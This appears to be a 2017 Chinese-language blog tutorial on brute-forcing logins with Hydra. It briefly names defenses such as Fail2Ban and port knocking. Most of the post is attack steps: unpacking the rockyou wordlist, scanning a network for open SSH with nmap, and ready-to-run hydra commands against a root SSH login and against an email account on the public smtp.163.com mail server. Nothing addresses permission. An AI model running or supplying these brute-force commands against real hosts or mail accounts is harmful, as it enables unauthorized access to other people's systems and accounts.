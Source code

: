 ```yaml
---
title: "使用Hydra通过ssh破解密码"
categories: [ "安全" ]
tags: [ "密码安全" ]
draft: false
slug: "使用Hydra通过ssh破解密码-使用hydra通过ssh破解密码"
date: "2017-04-08 08:16:26"
---
```




Hydra是非常高效的网络登录破解工具，它可以对多种服务程序执行暴力破解（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

  * Ubuntu：使用Port Knocking隐藏SSH端口

  * 在Ubuntu中用Fail2Ban保护SSH

  * CentOS 7安装使用Fail2Ban保护SSH

  * Debian使用Fail2Ban和Tinyhoneypot增加网络安全

  * * * *

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra

xhydra：

![][1] 

hydra：

![][2] 

我使用命令行版本：hydra

## 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。

    # gzip -d /usr/share/wordlists/rockyou.txt.gz

## 使用nmap扫描开启SSH服务的主机

扫描SSH服务(22端口)，确定可以施行破解的主机。

    ＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget

## 使用hydra暴力破解

    # hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh

## 破解邮箱密码：

    # hydra -S -l test@163.com -P /usr/share/wordlists/rockyou.txt -e ns -V -s 465 -t 1 smtp.163.com smtp

更多选项，查看man hydra。

 [1]: /uploads/oss/2017-04-25-14916394435149.png ""
 [2]: /uploads/oss/2017-04-25-14916394572895.png ""